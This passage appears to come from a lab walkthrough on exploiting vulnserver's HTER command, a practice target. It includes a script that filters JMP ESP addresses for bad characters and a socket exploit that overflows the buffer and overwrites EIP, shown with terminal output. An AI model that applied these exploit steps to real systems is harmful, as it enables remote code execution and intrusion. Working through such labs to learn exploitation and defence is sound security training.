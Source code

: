 ```NX bit``` is also disabled, which allows us to execute shellcode on stack memory
bad_chars=['0x80', '0x81', '0x82', '0x83', '0x84', '0x85', '0x86', '0x87', '0x88', '0x89', '0x8a', '0x8b', '0x8c', '0x8d', '0x8e', '0x8f', '0x90', '0x91', '0x92', '0x93', '0x94', '0x95', '0x96', '0x97', '0x98', '0x99', '0x9a', '0x9b', '0x9c', '0x9d', '0x9e', '0x9f', '0xa0', '0xa1', '0xa2', '0xa3', '0xa4', '0xa5', '0xa6', '0xa7', '0xa8', '0xa9', '0xaa', '0xab', '0xac', '0xad', '0xae', '0xaf', '0xb0', '0xb1', '0xb2', '0xb3', '0xb4', '0xb5', '0xb6', '0xb7', '0xb8', '0xb9', '0xba', '0xbb', '0xbc', '0xbd', '0xbe', '0xbf', '0xc0', '0xc1', '0xc2', '0xc3', '0xc4', '0xc5', '0xc6', '0xc7', '0xc8', '0xc9', '0xca', '0xcb', '0xcc', '0xcd', '0xce', '0xcf', '0xd0', '0xd1', '0xd2', '0xd3', '0xd4', '0xd5', '0xd6', '0xd7', '0xd8', '0xd9', '0xda', '0xdb', '0xdc', '0xdd', '0xde', '0xdf', '0xe0', '0xe1', '0xe2', '0xe3', '0xe4', '0xe5', '0xe6', '0xe7', '0xe8', '0xe9', '0xea', '0xeb', '0xec', '0xed', '0xee', '0xef', '0xf0', '0xf1', '0xf2', '0xf3', '0xf4', '0xf5', '0xf6', '0xf7', '0xf8', '0xf9', '0xfa', '0xfb', '0xfc', '0xfd', '0xfe', '0xff', '0x0']
jmp_esp_pointers=['0x625011af','0x625011bb','0x625011c7','0x625011d3','0x625011df','0x625011eb','0x625011f7','0x62501203','0x62501205']
bad_pointers=[]
good_pointers=[]
bad_chars=[x[2:] for x in bad_chars]
for x in jmp_esp_pointers:
        byte_data=[x[2:4],x[4:6],x[6:8],x[8:]]
        for y in byte_data:
                if y in bad_chars:
                        print("Found bad char "+y+" in "+x)
                        bad_pointers.append(x)
bad_pointers=list(set(bad_pointers))
for x in bad_pointers:
        if x in jmp_esp_pointers:
                jmp_esp_pointers.remove(x)
good_pointers=jmp_esp_pointers
print("\nAvailable JMP ESP pointers without bad characters are")
print(good_pointers)
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/LTER]
└─$ python3 find-bad-address.py
Found bad char af in 0x625011af
Found bad char bb in 0x625011bb
Found bad char c7 in 0x625011c7
Found bad char d3 in 0x625011d3
Found bad char df in 0x625011df
Found bad char eb in 0x625011eb
Found bad char f7 in 0x625011f7

Available JMP ESP pointers without bad characters are
['0x62501203', '0x62501205']
```

So we found only 2 pointers without restricted characters

Lets craft the script and enter the address of the jmp esp opcode in ```little endian``` format because the data in stack is placed in little endian format

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/LTER]
└─$ cat jmp-esp.py         
import socket, sys
payload=b""
# to overwrite buffer and EBP
payload+=b"A"*2041
# to overwrite EIP with JMP ESP
payload+=b"\x03\x12\x50\x62"
# padding
payload+=b"D"*8
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"HTER "+payload))
s.close()
```